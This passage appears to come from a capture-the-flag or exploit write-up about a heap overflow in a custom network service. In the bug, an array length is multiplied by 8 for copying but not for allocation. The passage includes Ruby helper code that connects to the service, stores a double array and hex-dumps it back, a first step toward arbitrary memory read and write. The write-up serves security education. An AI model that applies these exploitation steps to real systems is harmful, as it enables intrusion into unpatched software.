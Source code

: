 It's multiplying the array size by 8, but not the malloc'd size! That means it'll always try to copy 8x too much data into the array!

Now, what can we do with this?

### Reading and writing arbitrary memory

It's important to remember the structure of array-containing messages to understand how to read memory. In particular, this structure:

- (uint32) unknown
- (uint32) message\_type
- (uint32) message-specific payload (pointer)
- (uint32) message-specific payload (length)
- ...

Let's say we allocate an array of ten doubles using the following code (you can find these functions defined in my exploit code on Github):

```

<span class="lnr"> 1 </span>s = <span class="Type">TCPSocket</span>.new(<span class="Special">"</span><span class="Constant">192.168.1.119</span><span class="Special">"</span>, <span class="Constant">8585</span>)
<span class="lnr"> 2 </span>
<span class="lnr"> 3 </span>receive_code(s, <span class="Constant">0x00001000</span>, <span class="Special">"</span><span class="Constant">init</span><span class="Special">"</span>)
<span class="lnr"> 4 </span>
<span class="lnr"> 5 </span>login(s)
<span class="lnr"> 6 </span>
<span class="lnr"> 7 </span>store(s, <span class="Type">VARDATA_TYPE_DOUBLE_ARRAY</span>, [<span class="Constant">0x4141414141414141</span>] * <span class="Constant">10</span>)
<span class="lnr"> 8 </span>result = get(s, <span class="Constant">0</span>)
<span class="lnr"> 9 </span>
<span class="lnr">10 </span><span class="Type">Hex</span>.print(result)
```

Everything will be normal and it'll output:

```

<span class="Constant">0000</span>  <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span>   <span class="Type">AAAAAAAAAAAAAAAA</span>
<span class="Constant">0010</span>  <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span>   <span class="Type">AAAAAAAAAAAAAAAA</span>
<span class="Constant">0020</span>  <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span> <span class="Constant">41</span>   <span class="Type">AAAAAAAAAAAAAAAA</span>
```